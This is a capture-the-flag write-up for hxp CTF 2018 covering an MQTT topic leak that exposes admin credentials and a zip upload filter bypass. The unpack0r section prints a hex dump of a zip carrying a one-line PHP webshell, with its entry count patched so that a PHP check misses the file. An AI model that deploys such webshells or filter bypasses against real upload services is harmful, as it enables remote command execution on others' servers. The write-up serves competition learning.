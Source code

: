 # hxp CTF 2018

**It's recommended to read our responsive [web version](https://balsn.tw/ctf_writeup/20181207-hxpctf/) of this writeup.**


 - [hxp CTF 2018](#hxp-ctf-2018)
   - [Crypto](#crypto)
     - [blind](#blind)
     - [oops2](#oops2)
     - [curve12833227](#curve12833227)
     - [blinder](#blinder)
     - [blinder_v2](#blinder_v2)
   - [Web](#web)
     - [time for h4x0rpsch0rr?](#time-for-h4x0rpsch0rr)
     - [unpack0r](#unpack0r)
       - [Failed Attempts](#failed-attempts)
     - [µblog](#µblog)
       - [Failled Attempts](#failled-attempts)


## Crypto

### blind

sasdf

https://sasdf.cf/ctf/writeup/2018/hxp/crypto/blind/

### oops2

sasdf

https://sasdf.cf/ctf/writeup/2018/hxp/crypto/oops/

### curve12833227

sasdf

https://sasdf.cf/ctf/writeup/2018/hxp/crypto/curve/

### blinder

sasdf

https://sasdf.cf/ctf/writeup/2018/hxp/crypto/blinder/

### blinder_v2

sasdf

https://sasdf.cf/ctf/writeup/2018/hxp/crypto/blinder_v2/

## Web

### time for h4x0rpsch0rr?

bookgin

The website uses MQTT websocket to receive the temperature.

```htmlmixed
...

<script src="mqtt.min.js"></script>
<script>
  var client = mqtt.connect('ws://159.69.212.240:60805')
  client.subscribe('hxp.io/temperature/Munich');
</script>
```

And there is admin panel, but username, password and OTP are required to login.

Let's take a look at the [document](https://www.hivemq.com/blog/mqtt-essentials-part-5-mqtt-topics-best-practices/). It does support wildcard charcaters.

>If you specify only the multi-level wildcard as a topic (#), you receive all messages that are sent to the MQTT broker.

I try to subscribe `#`, but no other messages are received. In the document, topics beginning with `$`  are not part of the subscription when you subscribe to the multi-level wildcard as a topic (#). 

Next is to subscribe `$SYS/#`. Bingo! I receive the message from `$internal/admin/webcam` channel. The message is actually an image. Decoding this image we will get admin's username, password and OTP. Login to the admin panel and get the flag. Note that the OTP will change in a few seconds.

```
curl 'http://159.69.212.240:8001/admin.php' -d 'user=iot_fag&password=I<3SecurID&otp=861729' -sD -
```

### unpack0r

bookgin

For the server side source code, please refer to [writeup by graneed](https://graneed.hatenablog.com/entry/2018/12/09/220317).

Basically, the server will unzip the file. However, the filename can only contain a-z. We cannot directly upload a webshell or `.htaccess`. 

The most notable thing here is the server uses php zip to check the filename, but it uses linux `unzip` to decompress the file. It's possible we can take advantage of this inconsistency. In the source, it uses php `zip->numFiles` and iterates each file to check the filename. What if we can make `zip->numFiles` return a incorrect number? So the plan is

1. zip a webshell `shell.php`
2. Make `zip->numFiles` return 0.
3. The zip file can still be decompressed by linux `unzip`.

Here is a [great document](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html) describing the ZIP file format. in the end of central directory record, there are two attributes `Disk entry` and `Total entry`. Just patch number to zero (0x00) and we can upload the webshell.

```shell
$ xxd a.zip
00000000: 504b 0304 0a00 0000 0000 765a 884d 256d  PK........vZ.M%m
00000010: ec8c 1800 0000 1800 0000 0900 1c00 6161  ..............aa
00000020: 6161 612e 7068 7055 5409 0003 20ef 0b5c  aaa.phpUT... ..\
00000030: 20ef 0b5c 7578 0b00 0104 e803 0000 04e8   ..\ux..........
00000040: 0300 003c 3f70 6870 0a73 7973 7465 6d28  ...<?php.system(
00000050: 245f 4745 545b 5f5d 293b 0a50 4b01 021e  $_GET[_]);.PK...
00000060: 030a 0000 0000 0076 5a88 4d25 6dec 8c18  .......vZ.M%m...
00000070: 0000 0018 0000 0009 0018 0000 0000 0001  ................
00000080: 0000 00a4 8100 0000 0061 6161 6161 2e70  .........aaaaa.p
00000090: 6870 5554 0500 0320 ef0b 5c75 780b 0001  hpUT... ..\ux...
000000a0: 04e8 0300 0004 e803 0000 504b 0506 0000  ..........PK....
000000b0: 0000 0000 0000 4f00 0000 5b00 0000 0000  ......O...[.....
```

#### Failed Attempts
- zip a symbolic link
    - The server side seems to block symbolic links. It will return 403 Forbidden when trying to access symbolic links.
- zip a large number of files
    - There seems to be [a bug](http://php.net/manual/en/class.ziparchive.php#116937) when ziping more than 65,535 files. However I cannot reproduce this in PHP 7.2.
- Prepend local file header and data
    - The PHP will fail to parse the zip file

### µblog

unsolved, bookgin

Please refer to [herrera's writeup](https://github.com/lbherrera/writeups/tree/master/hxp-2018/blog). His writeup is very impressive! Also, full credit to the author of the challenge @_0xbb_. This is definitely one of the best web challenge I've seen this year.

#### Failled Attempts
- XSS in `$(location.hash)`
    - [The bug](https://bugs.jquery.com/ticket/9521) is fixed in 2012.
    - Nowadays the lateest browsers will encode the string in `location.hash`
- Leak url thorugh referer
    - It's totally useless because admin will never visit `/?id=ADMIN_ID`
    - In Chrome 70 there is [bug](https://bugs.chromium.org/p/chromium/issues/detail?id=884505&can=1&q=Referrer%20Policy&colspec=ID%20Pri%20M%20Stars%20ReleaseBlock%20Component%20Status%20Owner%20Summary%20OS%20Modified) used to bypass referer policy, but we cannot control the html attributes.
- img CSRF
    - However, I can only send GET request in img-src. Nothing can be exploited.
- [script gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets)
    - We still need somewhere we can inject our XSS, but the page escapes all the html special characters.
